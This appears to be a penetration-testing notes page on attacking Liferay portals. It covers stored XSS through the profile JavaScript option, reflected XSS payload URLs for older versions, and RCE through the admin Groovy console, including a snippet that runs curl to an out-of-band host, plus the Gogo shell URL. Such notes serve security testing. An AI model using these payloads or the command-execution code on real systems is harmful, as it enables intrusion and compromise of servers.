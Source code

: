 ## Stored XSS on user pages

If [[#^6dec27|user web pages]] are enabled, it may be possible for users to edit them in the [[Liferay#^700327|control panel]]. There are many ways to add JavaScript to these pages, but the easiest one by far is to go to the configuration panel of `My Profile` and look for the option to add JavaScript code, which will be appended to every page that the user publishes. Since these pages are public, an attacker can use this to exploit an stored XSS vulnerability very easily.

![[liferay_XSS1.png]]
![[liferay_XSS2.png]]

## Reflected XSS

Older versions of Liferay are vulnerable to a reflected XSS in the same resource as some of the Open Redirect vulnerabilities explained before:

```
/html/common/referer_js.jsp?referer=javascript:alert("XSS")
/html/common/forward_js.jsp?FORWARD_URL=javascript:alert("XSS")
```

## RCE on administrator console

### Groovy console

Inside the [[Liferay#^700327|control panel]] for the administrators, there is an option to enable a Groovy console, which can be accessed with the following URL:

```
/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script
```

It allows running OS commands with the following code:

```java
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = "curl cm2mtu7gfbup86rs1tb0x9fgcncgt5dwu.oast.me".execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "$sout"
```

### Gogo shell

Inside the [[Liferay#^700327|control panel]] for the administrators, there is an option to enable a Gogo shell, which can be accessed with the following URL:

```
/group/control_panel/manage?p_p_id=com_liferay_gogo_shell_web_internal_portlet_GogoShellPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_gogo_shell_web_internal_portlet_GogoShellPortlet_javax.portlet.action=executeCommand
```
